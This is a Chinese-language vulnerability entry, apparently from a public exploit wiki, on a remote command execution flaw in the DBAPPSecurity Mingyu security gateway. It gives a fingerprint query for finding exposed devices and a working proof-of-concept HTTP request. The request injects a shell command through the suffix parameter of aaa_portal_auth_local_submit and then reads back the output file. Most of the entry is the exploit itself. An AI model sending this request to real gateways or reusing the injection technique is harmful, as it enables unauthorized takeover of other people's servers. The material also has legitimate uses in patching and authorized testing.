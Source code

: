 # 安恒 明御安全网关 aaa_portal_auth_local_submit 远程命令执行漏洞

## 漏洞描述

安恒 明御安全网关 aaa_portal_auth_local_submit 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

安恒 明御安全网关

## 网络测绘

body="/webui/images/basic/login/" && title=="明御安全网关"

## 漏洞复现

登录页面

[![img](https://github.com/PeiQi0/PeiQi-WIKI-Book/raw/main/docs/.vuepress/public/img/1648357678171-6c786cb6-1bdb-43c0-a94b-4c2ed4ff3cd0.png)](https://github.com/PeiQi0/PeiQi-WIKI-Book/blob/main/docs/.vuepress/public/img/1648357678171-6c786cb6-1bdb-43c0-a94b-4c2ed4ff3cd0.png)

验证POC

```
GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix={{urlenc(`id >/usr/local/webui/test.txt`)}} HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```



[![img](https://github.com/PeiQi0/PeiQi-WIKI-Book/raw/main/docs/.vuepress/public/img/1692062626150-36022103-f317-4818-bac9-f11851fbd281.png)](https://github.com/PeiQi0/PeiQi-WIKI-Book/blob/main/docs/.vuepress/public/img/1692062626150-36022103-f317-4818-bac9-f11851fbd281.png)

```
/test.txt
```



[![img](https://github.com/PeiQi0/PeiQi-WIKI-Book/raw/main/docs/.vuepress/public/img/1692062651462-caaf6133-21b4-4566-947b-a9fe6e2f2502.png)](https://github.com/PeiQi0/PeiQi-WIKI-Book/blob/main/docs/.vuepress/public/img/1692062651462-caaf6133-21b4-4566-947b-a9fe6e2f2502.png)